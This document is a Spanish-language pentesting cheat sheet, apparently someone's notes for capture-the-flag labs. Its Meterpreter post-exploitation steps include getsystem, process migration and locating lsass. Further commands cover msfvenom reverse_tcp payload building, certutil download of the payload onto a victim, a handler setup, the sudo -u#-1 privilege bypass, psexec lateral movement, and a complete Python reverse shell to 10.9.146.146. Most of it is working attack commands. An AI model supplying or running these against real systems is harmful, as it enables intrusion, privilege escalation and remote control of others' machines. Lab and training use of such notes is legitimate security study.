 
getuid = server username
sysinfo =informacion del sistema (en metaslpoit dentro de windows informacion de meterpreter x86/x64)
pgrep lsass = buscar id de lsass 
ps -S explorer.exe = buscar el proceso explorer.exe
migrate PID = seleccionamos el proceso de explorer
getsystem = para elevar privilegios
net localgroup administrators = consultar usuario del grupo administradores
ps -S lsass.exe = localizar pid de proceso de autenticacion del sistema
getprivs = podemos ver los privilegios del usuario en orden de realizar una suplantacion de tokens
dir C:\\ flag /s = buscamos de forma recursiva en todo C: por el archivo flag
whoami priv > ver privilegios windows
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ip LPORT=port -f exe > payload.exe
python -m SimpleHTTPServer 80
windows: certutil -urlcache -f http://LHOST/payload.exe > descarga  archivo en victima
msfc > use multihandler
	set payload windows/x64/meterpreter/reverse_tcp
		set LHOST
		set LPORT
Al ejecutar el payload en la victima obtenemos un meterpreter ss.
	meterpreter> search (para buscar el unattend.xml)

ENUM WEB
wfuzz -u http://IP/direcotorios/FUZZ.extension -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -c --hc 404
gobuster -u URL -w WORDLIS -t (velocidad) --no-error -k (para ignorar certs)


IMAGENES y ARCHIVOS
exiftool archivo  > ver datos del archivo
steghide extract --sf archivo.jpg > podemos ver si tiene archivo con info
strings nos trae los datos del archivo
file para ver de que tipo es un archivo
find / -perm -u=s -type f 2>/dev/null


sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt


HASH
base64 -d archivo.txt > decode base64 linux

psexec.py USUARIO@IP > nos conectamos a una maquina windows si tiene smb
	tambien esta disponible el modulo en msfconsole


ESTABILIZAR TERMINAAAAAAAAAAAAAAL
	python3 -c 'import pty;pty.spawn("/bin/bash")'
	_Ctrl+Z_
	stty raw -echo; fg
	export TERM=xterm


REVERSE SHELL SCRIPTS EN PYTHON
	import socket
	import os
	import subprocess
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("10.9.146.146",1444))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	import pty
	pty.spawn("bash")
